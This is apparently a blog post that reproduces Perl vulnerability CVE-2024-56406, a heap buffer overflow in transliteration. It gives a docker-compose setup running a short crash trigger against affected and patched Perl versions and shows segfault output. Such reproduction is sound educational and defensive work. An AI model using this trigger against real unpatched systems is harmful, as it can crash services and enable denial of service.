 ```yaml
---
title: "CVE-2024-56406"
date: 2025-05-17T00:00:00+00:00
description: "Discussion about the CVE-2024-56406."
type: post
image: images/blog/cve-2024-56406.png
author: Mohammad Sajid Anwar
tags: ["perl"]
---
```


#### **DISCLAIMER:** Image is generated using `FREE` version of `ChatGPT`.
***

<br>

In the earlier [**post**](/blog/cve-in-perl) where I discussed `CVE` in general and re-created `CVE-2018-18311`, `CVE-2023-31486` and `CVE-2023-47038`.

Continuing with the series, today I am talking about one more `CVE-2024-56406`.

This particular one affected `v5.34`, `v5.36`, `v5.38` and `v5.40`.

It's about heap buffer overflow when transliterating non-ASCII bytes.

According to the [**official document**](https://lists.security.metacpan.org/cve-announce/msg/28708725), the affected versions are below:

<br>

```bash
    from 5.40.0 until 5.40.2
    from 5.38.0 until 5.38.4
    from 5.36.0 through 5.36.3
    from 5.34.0 through 5.34.3
```

<br>

I will use the similar pattern as before and create docker container with affected `Perl` versions.

In that, I'll also add couple of good ones as well.

This is my docker configuration file: `docker-compose.yml`

<br>

```bash
version: '3.8'

services:
  perl_5_34_0:
    container_name: perl_5_34_0
    image: perl:5.34.0
    command:
      - perl
      - -e
      - |
        $$m = "\x{FF}" x 1000000;
        $$m =~ tr/\xFF/\x{100}/;
        print "If you see this, Perl didn't crash!!\n";
    deploy:
      resources:
        limits:
          memory: 2G

  perl_5_36_0:
    container_name: perl_5_36_0
    image: perl:5.36.0
    command:
      - perl
      - -e
      - |
        $$m = "\x{FF}" x 1000000;
        $$m =~ tr/\xFF/\x{100}/;
        print "If you see this, Perl didn't crash!!\n";
    deploy:
      resources:
        limits:
          memory: 2G

  perl_5_38_0:
    container_name: perl_5_38_0
    image: perl:5.38.0
    command:
      - perl
      - -e
      - |
        $$m = "\x{FF}" x 1000000;
        $$m =~ tr/\xFF/\x{100}/;
        print "If you see this, Perl didn't crash!!\n";
    deploy:
      resources:
        limits:
          memory: 2G

  perl_5_38_4:
    container_name: perl_5_38_4
    image: perl:5.38.4
    command:
      - perl
      - -e
      - |
        $$m = "\x{FF}" x 1000000;
        $$m =~ tr/\xFF/\x{100}/;
        print "If you see this, Perl didn't crash!!\n";
    deploy:
      resources:
        limits:
          memory: 2G

  perl_5_40_0:
    container_name: perl_5_40_0
    image: perl:5.40.0
    command:
      - perl
      - -e
      - |
        $$m = "\x{FF}" x 1000000;
        $$m =~ tr/\xFF/\x{100}/;
        print "If you see this, Perl didn't crash!!\n";
    deploy:
      resources:
        limits:
          memory: 2G

  perl_5_40_2:
    container_name: perl_5_40_2
    image: perl:5.40.2
    command:
      - perl
      - -e
      - |
        $$m = "\x{FF}" x 1000000;
        $$m =~ tr/\xFF/\x{100}/;
        print "If you see this, Perl didn't crash!!\n";
    deploy:
      resources:
        limits:
          memory: 2G
```

<br>

In summary, I am creating the following services that would throw error as expected:

<br>

```bash
    perl_5_34_0
    perl_5_36_0
    perl_5_38_0
    perl_5_40_0
```

<br>

There are two more services `perl_5_38_4` and `perl_5_40_2` which should be safe and unaffected.

<br>

Finally it's time to re-create the issues.

<br>

```bash
$ docker-compose run -rm perl_5_34_0
Creating cve-2024-56406_perl_5_34_0_run ... done
ERROR: 139
```

<br>

```bash
$ docker-compose run -rm perl_5_36_0
Creating cve-2024-56406_perl_5_36_0_run ... done
ERROR: 139
```

<br>

```bash
$ docker-compose run -rm perl_5_38_0
Creating cve-2024-56406_perl_5_38_0_run ... done
ERROR: 139
```

<br>

```bash
$ docker-compose run -rm perl_5_40_0
Creating cve-2024-56406_perl_5_40_0_run ... done
ERROR: 139
```

<br>

If you noticed, the exit code is `139` in the affected services.

As we know, `Exit Code = Signal Number + 128` and the `segfault` signal number is `11`.

And the good ones are:

<br>

```bash
$ docker-compose run -rm perl_5_38_4
Creating cve-2024-56406_perl_5_38_4_run ... done
If you see this, Perl didn't crash!!
```

<br>

```bash
$ docker-compose run -rm perl_5_40_2
Creating cve-2024-56406_perl_5_40_2_run ... done
If you see this, Perl didn't crash!!
```

<br>

***

<br>

`Happy Hacking !!!`
